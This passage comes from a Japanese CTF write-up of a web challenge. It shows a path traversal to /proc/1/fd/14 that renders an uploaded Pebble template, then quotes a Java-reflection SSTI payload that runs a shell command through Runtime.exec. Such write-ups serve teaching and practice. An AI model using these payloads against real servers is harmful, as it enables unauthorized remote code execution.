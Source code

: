 `/proc/1/fd/14`にシンボリックリンクがある。

試しに
```
$ echo '{{ "Hello, SSTI" }}' > hello.pebble
$ seq 50000 | sed 's/^.*$/test/' >> hello.pebble
```
で先頭に`Hello, SSTI`とレンダリングされる`hello.pebble`を作成して送信し、ブラウザで

- `/?x=../../../../proc/1/fd/14`

にアクセスした:

![](./img/03.png)

良さそう。テンプレートエンジンも動いている。これは勝ちです。

あとはSSTIからRCEにつなげるだけ。どうせ既知のRCE手法があるでしょと軽く見ていた。そう、このときまでは...

### パート4: SSTI to RCE（起）

ネット上からRCEにもっていくペイロードを探したら、あっさり見つかった:

- https://research.securitum.com/server-side-template-injection-on-the-example-of-pebble/

どうやら
```
{% set cmd = 'id' %}
{% set bytes = (1).TYPE
     .forName('java.lang.Runtime')
     .methods[6]
     .invoke(null,null)
     .exec(cmd)
     .inputStream
     .readAllBytes() %}
{{ (1).TYPE
     .forName('java.lang.String')
     .constructors[0]
     .newInstance(([bytes]).toArray()) }}
```
を投げるといいらしい。やってみる...


[^intro-1]: jailカテゴリではpyjailやFirefoxアドオンに関する問題が出題されてました。Firefoxアドオンの問題は見たことがないのでwriteupが手に入ったら復習したいです。他にもsystemsやosintの謎カテゴリもありました。
[^intro-2]: 面倒くさいという観点で難しいということではなく、本質的に解くのが難しく解きごたえがあって良いという意味。
[^intro-3]: Spoinkはポケモンのバネブーの英語名らしい。
[^spoink-1]: 追記: どうやらDALL·EやMidjourneyで生成した画像（絵）らしい。すべての問題に対して絵が用意されていてすごいなと思っていたけど、なるほど。問題文内の"a cute anthropomorphised spring as a line drawing"がAIに投げた文字列に対応している。CTFらしい良い試みだと思う。
[^part2-1]: PHPに関しては「HITCON CTFでPHPやばすぎ問題が出題される → 典型として浸透する」という流れがよくあるイメージなので、Orange氏の[作問リスト](https://github.com/orangetw/My-CTF-Web-Challenges)をチェックしておくのは有用なのではと最近考えてる。